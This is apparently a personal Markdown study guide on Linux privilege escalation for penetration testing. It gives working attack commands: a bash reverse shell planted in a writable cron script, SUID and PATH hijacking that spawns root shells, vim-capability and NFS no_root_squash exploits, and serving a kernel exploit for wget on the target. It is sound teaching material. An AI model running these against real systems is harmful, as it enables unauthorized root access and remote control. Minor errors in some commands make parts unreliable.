# Privileges Escalation - Linux

- [Enumeration](#enumeration)
- [Sensitive files](#sensitive-files)
- [Exploiting SUID/SGID](#exploiting-suidsgid)
- [Capabilities exploitation](#capabilities-exploitation)
- [Discovering passwords and keys](#discovering-passwords-and-keys)
- [NFS Server exploitation](#nfs-server-exploitation)

### Sudo command
`sudo` is a command that can be used only by users specified in `/etc/sudoers` file. Everytime a user run a command preceded by `sudo`, he runs it as the **root user**.

### Useful sudo options
- `sudo usermod -aG sudo <user>` to add a specific user to the sudo group (so he can use sudo command.)
- `sudo -s` to become superuser (**root**).
- `sudo -u <user> <command>` to run a command impersonating the specified user.
- `su <user>` to switch between users (password needed).
- `sudo -l` to list commands and programs which the current user is allowed to run with `sudo`.

### Vulnerabilities databases: 
- Metasploit framework
- https://exploit-db.com 
- https://cvedetails.com/
- https://gtfobins.github.io/

---
## Enumeration

During this first step, we are going to get some preliminaries info about the system of the machine we are in.
- [User and groups](#user-and-groups)
- [System](#system)
- [Processes](#processes)
- [Network](#network)
- [Find command](#find-command)
- [Automated tools](#automated-tools)

### User and groups
- `whoami` to check the current user.
- `id` to get info about the current user.
- `groups` to check which groups the user belongs to.

### System
- `hostname` to check the hostname. In some cases, it can provide useful info about the target.
- `uname -a` to get info about the kernel.
- `cat /proc/version` (similar to the previous command) to get the kernel version and check which compiler (GCC) is installed. ([see Kernel exploitation](#kernel-exploitation-example))
- `cat /etc/issue` to check the version of the Operating System.
- `env` to check the environments variables, the default shell... (if the PATH variable includes a compiler or a scripting language, it could be exploited to run code with high privileges)

### Processes
- `ps -a` to check all the processes running on the machine.
- `ps axjd` to check the process tree.
- `ps aux` to check all the processes, which users are running these processes and which processes are not attached to a Terminal.

### Network
- `ip route` to check the network routes.
- `netstat -a` to check all listening ports and established connections.
- `netstat -i` to get interfaces statistics.

### Find command
- `find /home -user <Username>` to look for a specific user in the `/home` directory.
- `find . -name <Filename>` to look for something in the current directory.
- `find / -name <Filename>` to look for something in the entire filesystem.
  - `... -type d ...` to specify that we are looking for a directory.
  - `... -type f ...` to specify that we are looking for a file.

### Automated tools
- **LinPeas**: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- **LinEnum**: https://github.com/rebootuser/LinEnum
- **LES (Linux Exploit Suggester)**: https://github.com/mzet-/linux-exploit-suggester
- **Linux Smart Enumeration**: https://github.com/diego-treitos/linux-smart-enumeration
- **Linux Priv Checker**: https://github.com/linted/linuxprivchecker 

### Sudo exploitation example
**On the target:**
- Check which binaries we can run with `sudo`:<br>`sudo -l`
- Look for those binaries on https://gtfobins.github.io/ and select the Sudo section (if available).
- Follow the steps the site says to do.
- If everything's ok, now we should be root.
- Check it with `whoami`.

### Kernel exploitation example
**First step - on our machine:**
- Download from https://exploit-db.com (for example) the proper exploit script.
- Add the missing dependencies if needed
- Compile it with `gcc <Script> -static -o <Exploit>`
  - `-static` will link all the needed libraries (but not always), to avoid GCC compatibility problems.
- Run a Python server with `sudo python3 -m http.server` (it will run an HTTP server on port 8000)

**Second step - on the target:** 
- `cd /tmp`
- Get the exploit from the Python server: `wget http://<IP>:8000/<Exploit>`.
- Give it execution permissions: `chmod +x <Exploit>`
- Run it with `./<Exploit>`.
- If everything's ok, now we should be root.
- Check it with `whoami`.

---
## Sensitive files
- [/etc/sudoers](#etcsudoers)
- [/etc/shadow](#etcshadow)
- [/etc/passwd](#etcpasswd)
- [/etc/crontab](#etccrontab)

### /etc/sudoers 
- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user. 

  
  
  If a user is specified under the root line, it means that he's personally allowed to run the **sudo command**. If he's not specified there, he could run the sudo command anyway, belonging to the **sudo group** 

    - In this first VM, the user _diego_ belongs to _diego_ and _users_ groups, so he shouldn't be able to run the sudo command. But he's specified in sudoers file, so he can do it.<br>
    

    - In this second VM, the user _diego_ belongs to many groups, including the _sudo_ group, so he's able to run the sudo command, even without being specified in sudoers file.<br>
    

### /etc/shadow 
- It contains user password hashes and is usually readable only by the root user.

  

  That complex string between the first and second `:` is the hashed password of user _diego_.<br>
  If we have access to this file, we could use **John the Ripper** to crack the password hash we are interested in. So:
  - Paste the entire line on a proper file:

    

  - Use a pre-built passwords list or create a new one (I highlighted the correct password):

    

  - Modern hashes are made with **yescrypt** algorithm, so we have to specify it when we run John: `john --format=crypt --wordlist=<Password list> <Hash file>`. If it's an easy hash, we can use just `john <Hash file>`.

    
  
  Found passwords are stored in `john.pot` file.

### /etc/passwd 
- It contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  

  That `x` means that any hash is set for user _diego_.<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

### /etc/crontab 
- It's is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  

  Example of cron jobs scheduled to run **as root** every minute:
  
  
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to get a root shell in this way:
  ```
  #!/bin/bash
  mkdir /tmpdir
  cp /bin/bash /tmpdir/rootbash
  chmod +xs /tmpdir/rootbash
  ```
  - This script will copy the default `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
    - If you type `whoami`, you should read _root_.
    - You can choose any shell you want (`/bin/bash`, `/bin/sh`, `/bin/zsh`).

### Local test
- Create `script.sh` in your home folder and paste the previous bash code,
- Run it with `sudo script.sh`. It should create `/tmpdir/rootbash` as said before.
- Run the shell with `/tmpdir/rootbash`. It should open a shell as root. 
- Check your role with `whoami`.


---
## Exploiting SUID/SGID 

- [Definitions](#definitions)
- [Where are these bits?](#wherearethesebits)
- [Finding SUID/SGID executables](#Finding-SUIDSGID-executables)
- [Very useful binary to read every file you want](#very-useful-binary-to-read-every-file-we-want)
- [Shared objects vulnerability](#Shared-objects-vulnerability)
- [Environment variables without full paths](#Environment-variables-without-full-paths)
- [Environment variables with full paths and vulnerable shell](#Environment-variables-with-full-paths-and-vulnerable-shell)

### Definitions
- **SUID**: **Set User ID**. When a binary has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When a binary has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

### Where are these bits?
If we run the `ls -l` command, this output will be shown:<br> `<Obj Type><User permissions>-<Group permissions> <Obj Owner> <Obj Group>`<br>
(`Obj Type` could be `.` if it's a file or `d` if it's a directory).<br>
So, if we have an `s` in `User permissions`, the file has the SUID bit set. <br>If we have an `s` in `Grpup permissions`, the file has the SGID bit set.

### Finding SUID/SGID executables
- `find / -type f -perm /6000`: finds binaries which have the SUID **or** SGID bit set.
- `find / -type f -perm -6000`: finds binaries which have **both** the SUID **and** SGID bit set.
- `find / -type f -perm -4000`: finds binaries which have **only** the SUID bit set.
- `find / -type f -perm -2000`: finds binaries which have **only** the SGID bit set.

Type `2>/dev/null` in the end to discard the standard error.<br>
If we look for binaries and we find an obsolete one (so vulnerable, for example `/usr/sbin/exim-4.84-3`):
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- Copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

### Very useful binary to read every file we want
If the binary `/usr/bin/base64` has the SUID bit set, we can exploit it to read non-accessible files. Following what https://gtfobins.github.io says, we have to do:
- `LFILE=<File to read (with absolute path)>`.
- `/usr/bin/base64 "$LFILE" | base64 --decode`.

### Shared objects vulnerability
Some binaries could be vulnerable to shared objects injections.
- `strace <Binary Path> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

### Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <Binary Path>` to look for readable ASCII or Unicode characters. If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`):
  - We can exploit it creating a `.c` program:
    ```
    int main() {
      setuid(0);  
      system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <name>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <Binary Path>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

### Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). 
<br>If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <Binary Path>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies the Bash shell in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`. 


---
## Capabilities exploitation

They allow system admins to give a binary permission to perform specific privileged operations **without requiring full root access**. For this reason, setting a SUID/SGID bit is more insecure than manage capabilities.
- `getcap -r / 2>/dev/null` to check which binaries have capabilities set.

### Safe binary case


The first result we get on our machine is the binary `/usr/bin/fping`. It has the `cap_net_raw=ep` capability, in which:

  - `e`: effective (it can use the capability).
  - `p`: permitted (it can have the capability).<br>

But if we print its privileges, we don't see any SUID/SGID bit set, so it prevents that kind of vulnerability exploitations.<br>In this specific case, according to https://gtfobins.github.io, we don't have any capability vulnerability, so it's safe.

### Vulnerable binary case


In this case, giving a look to https://gtfobins.github.io, we get `/home/karen/vim` and `/home/ubuntu/view` as vulnerable binaries. It can be exploited following the GFTObins steps.
- **Vim exploitation**: `/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` and we are now root. Check it with `whoami`.
- **View exploitation**: `/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` and we are now root. Check it with `whoami`.


---
## Discovering passwords and keys

### Local history inspection
- `cat ~/.*history` to read the history of typed commands.

  

  If we find something like `mysql ... -u <user> -p <password>` we can exploit it. Even better if that user is **root**! (We could escalate privileges easily with `su root`)

### Hidden files inspection
- Inspecting hidden files or hidden directories is always important because something interesting could be found! 
- Just `ls -a` and look for useful stuffs.


---
## NFS Server exploitation
When we're inside the target machine, we have to check if it's an **NFS (Network File System) server**, in which we could mount locally directories from remote and try to exploit the NFS vulnerability (if there's one).

**First step - on the target:**
- Check if it's an NFS server with `cat /etc/exports`.
  - The output should be `<Remote dir> <Target IP>(<Permissions>)`
  - No output if no NFS service running on it.
- If we get `rw` permissions and also `no_root_squash` option, **we found a vulnerability**, so we can proceed.
  - `no_root_squash` option means that if the client loads a file with UID = 0 (root), the NFS server keeps it. 

**Second step - on our machine:**
- We have to log in as root, so `sudo su`.
- Then let's create the NFS share:\`mkdir /tmp/nfs`.
- And let's mount the remote directory on it:<br>`mount -o rw,vers=3 <Target IP>:<Remote dir> /tmp/nfs` 
- Now we have to create a `rootshell.elf` file to run a privileged shell:<br>`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/rootshell.elf`
- In the end, let's set the SUID bit: `chmod +xs /tmp/nfs/rootshell.elf` 

**Last step - on the target:**
- We can now launch the privileged shell from the exposed directory (`/tmp`) with `/tmp/rootshell.elf`.
- We should be able to gain access to a root shell. Check it with `whoami`.

